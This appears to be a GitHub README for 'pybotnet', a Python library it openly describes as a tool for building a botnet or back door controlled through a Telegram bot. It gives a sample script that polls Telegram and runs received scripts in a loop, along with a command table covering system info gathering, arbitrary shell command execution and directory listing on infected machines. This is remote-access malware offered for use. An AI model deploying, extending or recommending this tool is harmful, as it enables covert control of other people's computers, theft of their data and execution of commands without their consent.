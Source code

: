 # pybotnet  0.1

A module for building botnet or back door with Python and Telegram control panel
- [x] windows
- [x] linux
- [x] mac

### See the [TODO List](https://github.com/onionj/pybotnet/blob/master/TODOLIST.MD) if you want to *help* me <3

### Features:
* get command from telegram and execute scripts 
* get command and send message by third party proxy
* get target info 
* sleep source by Optional message
* get ls (dirctory list)

 


### Requirements:

* Python 3.6 or higher.
* Telegram account
* your account number ID (get it from @userinfobot)
* telegram api token (Get it from the telegram botfather)
```
pip install -r requirements.txt
```

### Sample:

```python
import pybotnet
import time

TELEGRAM_TOKEN = '1468299500:AAHsvEH-5VyIfWYMzZcYxF_e00000000000'
ADMIN_CHAT_ID = '12345678910'
delay = 60

bot = pybotnet.PyBotNet(TELEGRAM_TOKEN, ADMIN_CHAT_ID, show_log=True, send_system_data=True)

while True:
    bot.get_and_execute_scripts_by_third_party_proxy()
    time.sleep(delay)

```

### Commmands:
Send this message to your api bot in telegram, using the admin account.

COMMAND | Sample | DO THIS | Minimum version required |
--------|--------|---------|--------------------------|
get_info | get_info |return system info | 0.06 |
do_sleep \<scconds> \<message (Optional)> | do_sleep 99999 hi, i see you! | \<if message != none : print(message) > ; time.sleep(seccond) | 0.08 |
cmd \<system command> | cmd ping google.com | run system command in shell or cmd (Be careful not to give endless command)| 0.07 |
ls \<route (Optional)> | ls C:\ , ls /home |Returns a list of folders and files in that path | 0.09
